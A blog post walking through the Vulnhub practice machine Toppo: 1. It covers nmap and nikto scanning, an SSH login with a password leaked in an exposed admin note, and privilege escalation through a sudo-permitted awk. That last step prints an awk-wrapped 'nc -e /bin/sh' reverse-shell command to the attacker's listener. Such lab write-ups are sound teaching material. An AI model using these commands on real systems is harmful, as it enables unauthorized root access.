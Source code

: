 ```yaml
---
layout:     post
title:      "Vulnhub.com - Toppo: 1"
date:       2018-07-16 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Vulnhub
---
```


Today we're going to work through easy machine from Vulnhub called ***Toppo***. If you don't have time, but still want to get these shells, just try this machine. 

{% highlight text %}
The Machine isn't hard to own and don't require advanced exploitation .

Level : Beginner

DHCP : activated

Inside the zip you will find a vmdk file , and I think you will be able to use it with any usual virtualization software ( tested with Virtualbox) .

If you have any question : my twitter is @h4d3sw0rm

Happy Hacking !
{% endhighlight %}

* Author: [Hadi Mene](https://twitter.com/@h4d3sw0rm)
* Download: [https://www.vulnhub.com/entry/toppo_1,245/](https://www.vulnhub.com/entry/toppo_1,245/)

Big thanks to the author for creating this challenge and for Vulnhub for hosting and curating this great set of machines!

### Solution

Firstly let's start with our usual `nmap` scan in order to view the open ports on this machine. 

What parameters I'm using?

* *-v* - verbose output
* *-sS* - TCP-SYN scan
* *-A* - OS detection, version detection and traceroute
* *-T4* - aggresive scan
* *-p-* - scan all 65535 ports

{% highlight bash %}
root@kali:~# nmap -v -sS -A -T4 -p- 10.0.0.6
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-12 12:38 EDT
NSE: Loaded 148 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
Initiating ARP Ping Scan at 12:38
Scanning 10.0.0.6 [1 port]
Completed ARP Ping Scan at 12:38, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:38
Completed Parallel DNS resolution of 1 host. at 12:38, 0.00s elapsed
Initiating SYN Stealth Scan at 12:38
Scanning 10.0.0.6 [65535 ports]
Discovered open port 80/tcp on 10.0.0.6
Discovered open port 22/tcp on 10.0.0.6
Discovered open port 111/tcp on 10.0.0.6
Discovered open port 50394/tcp on 10.0.0.6
Completed SYN Stealth Scan at 12:38, 4.12s elapsed (65535 total ports)
Initiating Service scan at 12:38
Scanning 4 services on 10.0.0.6
Completed Service scan at 12:38, 11.02s elapsed (4 services on 1 host)
Initiating OS detection (try #1) against 10.0.0.6
NSE: Script scanning 10.0.0.6.
Initiating NSE at 12:38
Completed NSE at 12:38, 0.38s elapsed
Initiating NSE at 12:38
Completed NSE at 12:38, 0.01s elapsed
Nmap scan report for 10.0.0.6
Host is up (0.00046s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          49973/udp  status
|_  100024  1          50394/tcp  status
50394/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:C5:CA:47 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 0.010 days (since Thu Jul 12 12:23:50 2018)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms 10.0.0.6

NSE: Script Post-scanning.
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
Initiating NSE at 12:38
Completed NSE at 12:38, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.17 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
{% endhighlight %}

From here I can see only one service that's worth looking at the start, which is `http` running on port `80`. While looking manually at the website, I decided to run `nikto` to scan the website.  

{% highlight bash %}
root@kali:~# nikto -h 10.0.0.6
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.0.0.6
+ Target Hostname:    10.0.0.6
+ Target Port:        80
+ Start Time:         2018-07-12 12:20:26 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.10 (Debian)
+ Server leaks inodes via ETags, header found with file /, fields: 0x1925 0x563f5cf714e80 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7517 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           2018-07-12 12:20:53 (GMT-4) (27 seconds)
---------------------------------------------------------------------------
{% endhighlight %}

Here we have, an `/admin/` directory. Inside there was a note in `notes.txt` file. 

{% highlight text %}
URL OF NOTE: http://10.0.0.6/admin/notes.txt

Note to myself :

I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer .
{% endhighlight %}

At first I thought about enumerating more in order to find the username, as we already have the password. But stupid me overthought this part way too much.

I didn't notice that the username is already ***in the password***. Like what was I thinking, `ted` can be the username, and it probably will as this is easy machine.  

{% highlight bash %}
root@kali:~# ssh ted@10.0.0.6
ted@10.0.0.6's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 15 12:33:00 2018 from 192.168.0.29

ted@Toppo:~$ ls -la
total 24
drwxr-xr-x 2 ted  ted  4096 Jul 16 12:55 .
drwxr-xr-x 3 root root 4096 Apr 15 10:08 ..
-rw------- 1 ted  ted     1 Apr 15 12:33 .bash_history
-rw-r--r-- 1 ted  ted   220 Apr 15 10:08 .bash_logout
-rw-r--r-- 1 ted  ted  3515 Apr 15 10:08 .bashrc
-rw-r--r-- 1 ted  ted   675 Apr 15 10:08 .profile
{% endhighlight %}

Of course that the password works. Now we have to escalate our privilages. Here comes good old [G0tm1k post](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) and while trying different steps I've noticed this entry in `/etc/sudoers` file. 

{% highlight bash %}
ted@Toppo:~$ cat /etc/sudoers
ted ALL=(ALL) NOPASSWD: /usr/bin/awk
{% endhighlight %}

Now I decided to check whether `nc` is installed on the system. 

{% highlight bash %}
ted@Toppo:~$ which nc
/bin/nc
{% endhighlight %}

And now we can use simple `system()` function from `awk` in order to run the reverse shell with `nc`. 

{% highlight bash %}
ted@Toppo:~$ awk 'BEGIN {system("nc -e /bin/sh 10.0.0.4 1337")}'
{% endhighlight %}

Now we can look at the ouputu of the previously started listener.  

{% highlight bash %}
root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
10.0.0.6: inverse host lookup failed: Unknown host
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.6] 52985
whoami
root
cd /root
ls -la
total 24
drwx------  2 root root 4096 Apr 15 11:40 .
drwxr-xr-x 21 root root 4096 Apr 15 10:02 ..
-rw-------  1 root root   53 Apr 15 12:28 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  397 Apr 15 10:19 flag.txt
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
cat flag.txt
_________                                  
|  _   _  |                                 
|_/ | | \_|.--.   _ .--.   _ .--.    .--.   
    | |  / .'`\ \[ '/'`\ \[ '/'`\ \/ .'`\ \ 
   _| |_ | \__. | | \__/ | | \__/ || \__. | 
  |_____| '.__.'  | ;.__/  | ;.__/  '.__.'  
                 [__|     [__|              

Congratulations ! there is your flag : 0wnedlab{p4ssi0n_c0me_with_pract1ce}
{% endhighlight %}